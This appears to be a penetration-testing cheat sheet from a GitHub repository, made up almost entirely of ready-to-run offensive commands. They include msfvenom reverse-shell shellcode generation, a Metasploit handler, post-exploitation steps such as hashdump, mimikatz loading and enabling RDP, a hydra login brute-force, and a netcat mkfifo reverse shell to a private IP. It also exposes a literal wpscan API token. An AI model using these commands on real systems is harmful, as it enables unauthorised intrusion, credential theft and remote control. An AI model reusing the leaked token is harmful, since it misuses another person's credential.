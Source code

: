 https://github.com/findthehead/Cheatsheet
-------------------------------------------------<: shellcode generate :>-----------------------------------------------------------
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST 10.10.15.135 LPORT=1234 -f c -b \x00\x0a\x0d 
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.9.80.151 LPORT=8000 -b "\x00\x25\x26" -f python -v shellcode

sudo msfconsole -q -x "use exploit/multi/handler;\
set PAYLOAD windows/meterpreter/reverse_tcp;\
set LHOST 10.11.0.4;\
set LPORT 80;\
run"

#privesc
run post/multi/recon/local_exploit_suggester
getprivs
ps
migrate -N PROCESS_NAME
load kiwi
hashdump
run post/windows/manage/enable_rdp
--------------------------------------------------wpscan-------------------------------------------------------

wpscan --url http://10.10.156.7  --enumerate u,p --api-token ZuSVj6b6AMzEMk8k2X5a6Q0Zg18LZd0uOWqZVNSewss
---------------------------------------------------------------------------------------------------
for i in {1..600}; do ping -c 1 127.0.0.1:$i &> /dev/null && echo "Ping to 127.0.0.1:$i succeeded (i=$i)"; done
=================================================================================================
xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.45.210
rdesktop -u username 10.10.83.110
---------------------------------------hydra_login_http_attack---------------------------------------------------------

hydra -L /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -p asdf 10.10.111.189 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."
---------------------------------------port_forwarding---------------------------------------------------

ssh -N system@10.0.2.3 -L 8080:192.168.1.5:80
---------------------------------------------------------------------------------------------------

curl shell:=> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.80.151 8000 >/tmp/f
--------------------------------------------------stable shell--------------------------------------------------------
SHELL=/bin/bash script -q /dev/null
python3 -c 'import pty; pty.spawn("/bin/bash") '

script /dev/null -c bash
# ctrl + z
stty raw -echo; fg
# enter (return) x2
